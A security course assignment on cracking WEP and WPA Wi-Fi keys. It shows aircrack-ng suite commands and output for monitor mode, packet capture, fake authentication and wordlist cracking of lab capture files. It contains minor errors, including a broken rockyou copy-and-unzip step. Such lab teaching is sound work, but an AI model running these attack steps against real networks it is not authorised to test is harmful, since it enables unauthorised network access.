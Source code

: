# Week 11 Assignment
 In Class, we cracked two Wifi access points, one using `WEP` encryption and the other using `WPA`.  

## Part 1: WEP
### Background

> First, we set our wifi adapter to `monitor` mode using the `airmon-ng` command:

```bash
airmon-ng start wlan0
```

```bash
PHY	Interface	Driver	Chipset

phy2	wlan0	rtl8187	Realtek Semiconductor Corp. RTL8187

```

<br>

> Next, we located our `WEP` encrypted wifi access point:
 
```bash
airodump-ng wlan0mon
```
```bash
 CH  6 ][ Elapsed: 12 s ][ 2019-11-18 15:53
 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:0F:66:9E:16:46  -23       14        0    0   6  54   WEP  WEP         WEP 
```

<div style="page-break-after: always;"></div>
 
> Then we captured packets seen from the `WEP` wifi access point using the associated BSSID

```bash
airodump-ng -c 6 --bssid 00:0F:66:9E:16:46 -w WEP wlan0mon
```
```bash
 CH  6 ][ Elapsed: 1 min ][ 2019-11-18 16:51
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:0F:66:9E:16:46  -26 100      613      147    0   6  54   WEP  WEP         WEP
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 
 00:0F:66:9E:16:46  78:4B:87:F8:D0:45  -33   54 -11      0       16 
```

<br>
> We sent a fake authentication request:

```bash
aireplay-ng -1 0 -e WEP -a 00:0F:66:9E:16:46 -h 0e:ed:83:a9:84:45 wlan0mon
```
```bash
17:21:05  Waiting for beacon frame (BSSID: 00:0F:66:9E:16:46) on channel 6

17:21:05  Sending Authentication Request (Open System) [ACK]
17:21:05  Authentication successful
17:21:05  Sending Association Request [ACK]
17:21:05  Association successful :-) (AID: 1)
```

<br>
> Finally, we cracked the `WEP` key using the `aircrack-ng` command.

<div style="page-break-after: always;"></div>

### Assignment

Your task is to examine the `WEP.cap` file and crack the `WEP` key.

Download the `WEP.cap` file.  You can do this in your `kali VM` using the following command:

```bash
wget https://raw.githubusercontent.com/kkatayama/cyber_topics/master/WEP.cap
```

Now use `aircrack-ng` or any tool of your choice to recover the `WEP` key.
> **Hints:**  
> `aircrack-ng --help` will list the flag options available to use with the `aircrack-ng` command.  
> You may not need to use any flags to crack the `WEP` key.

#### 1. What is the WEP key?
<br>

-

#### 2. Paste the command you used to crack the WEP key.
<br>

-

#### 3. Attach a screenshot showing the output of the command you used to crack the WEP key. 


<div style="page-break-after: always;"></div>


## Part 2: WPA
### Background

> First, we set our wifi adapter to `monitor` mode using the `airmon-ng` command:

```bash
airmon-ng start wlan0
```

```bash
PHY	Interface	Driver	Chipset

phy2	wlan0	rtl8187	Realtek Semiconductor Corp. RTL8187

```

<br>

> Next, we located our `WPA` encrypted wifi access point:
 
```bash
airodump-ng wlan0mon
```
```bash
 CH  6 ][ Elapsed: 12 s ][ 2019-11-18 15:53
 
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:18:39:EC:F4:D8  -23        9        0    0   6  54   WPA  TKIP   PSK  WPA 
```

<div style="page-break-after: always;"></div>
 
> Then we captured `Handshake` packets seen from the `WPA` wifi access point using the associated BSSID

```bash
airodump-ng -c 6 --bssid 00:18:39:EC:F4:D8 -w WPA wlan0mon
```
```bash
 CH  6 ][ Elapsed: 1 min ][ 2019-11-18 16:51
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:18:39:EC:F4:D8  -26 100      613      147    0   6  54   WPA  TKIP   PSK  WPA
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 
 00:18:39:EC:F4:D8  78:4B:87:F8:D0:45  -33   54 -11      0       16 
```

> Finally, we cracked the `WEP` key using the `aircrack-ng` command.

<div style="page-break-after: always;"></div>

### Assignment

Your task is to examine the `WPA.cap` file and crack the `WPA` key.

Download the `WPA.cap` file.  You can do this in your `kali VM` using the following command:

```bash
wget https://raw.githubusercontent.com/kkatayama/cyber_topics/master/WPA.cap
```

You should use a wordlist to help with cracking the `WPA` key.  Your `kali VM` comes with the `rockyou.txt` wordlist and can be obtained using the following commands:

```bash
cp /usr/share/wordlists/rockyou.txt.gz rockyou.txt
gunzip rockyou.txt.gz 
```

Now use `aircrack-ng` or any tool of your choice to recover the `WPA` key.
> **Hints:**  
> `aircrack-ng --help` will list the flag options available to use with the `aircrack-ng` command.  
> You should use the `rockyou.txt` wordlist in you command (there may be a flag for using wordlists).

#### 1. What is the WPA key?
<br>

-

#### 2. Paste the command you used to crack the WPA key.
<br>

-

#### 3. Attach a screenshot showing the output of the command you used to crack the WPA key. 


<div style="page-break-after: always;"></div>

